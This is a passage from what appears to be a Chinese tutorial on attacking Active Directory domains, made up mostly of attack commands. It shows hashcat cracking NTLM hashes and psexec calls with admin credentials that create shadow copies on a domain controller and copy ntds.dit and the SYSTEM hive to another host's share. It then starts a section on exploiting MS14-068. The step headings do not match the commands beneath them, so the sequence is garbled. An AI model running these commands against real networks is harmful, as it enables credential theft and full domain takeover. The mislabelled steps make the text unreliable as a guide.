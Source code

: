 **1\. 获取域控的设备名称**

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmIV4u10ReTWiaocQ1u1aNbFSyLgLNIMsgaILhCIJsribQFMUsib5wjWvLA/640?wx_fmt=png)

**2\. 获取域的 sid**

```
hashcat -m 5600 hash.txt -a 0 pass.txt --force
#5600>NTLM加密协议
```

```
psexec \\\\192.168.1.11 -u "safe-duck\\administrator"  -p "123456"  -h cmd /c "vssadmin list shadows >> \\\\192.168.1.201\\c$\\test\\out.txt"
```

**3\. 获取域控的 hash(死循环第二季)**

```
psexec \\\\192.168.1.11 -u safe-duck\\administrator  -p "123456" -h cmd /c "vssadmin create shadow /for=c:  >> \\\\192.168.1.201\\c$\\test\\outs.txt"
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvm8VcNZ4e4mAxVIqFgDuLmlLgVzkcBcCzkTwuVFV9a4gyKbNh1VvMrDg/640?wx_fmt=png)

**4\. 域内主机伪造白银票据**

```
psexec \\\\192.168.1.11 -u "safe-duck\\administrator" -p "123456" -h cmd /c "copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\ntds\\ntds.dit \\\\192.168.1.201\\c$\\test\\"
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmQmG2LxyuGOy9luOheMiaswKQFWnjZtU1e7uGetSmbEsib9gLblnsNSOA/640?wx_fmt=png)  

**5\. 票据注入成功**  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvml81XjJsv7T0auzWTV9DDORicObXzZdpXjSiaCTA4p8p9DJpYndBBsQOA/640?wx_fmt=png)

**6.psexec 调用目标域控制器的 cmd**

```
psexec \\\\192.168.1.11 -u "safe-duck\\administrator" -p "123456" -h cmd /c "copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\system32\\config\\system \\\\192.168.1.201\\c$\\test\\"
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmG19GbAqjOTFRVufEsIG6Z8eaKEicPbfcvZEM6C5K7IqexgKsw8JTZQA/640?wx_fmt=png)

**六、ms14-068 漏洞利用**
===================

ms14-068 漏洞利用不需要域控的 hash，利用的是目标域控的系统漏洞。但是需要普通域用户的账号及密码。

**利用步骤**
--------

1\. 首先在域控检测是否有 MS14-068 这个漏洞, 通过查看是否打补丁 (KB3011780) 来判断是否存在漏洞

2\. 攻击者拿下了一台域内的普通计算机, 并获得普通域用户以及密码 / hash 值，以及用户的 suid。exp 项目地址：
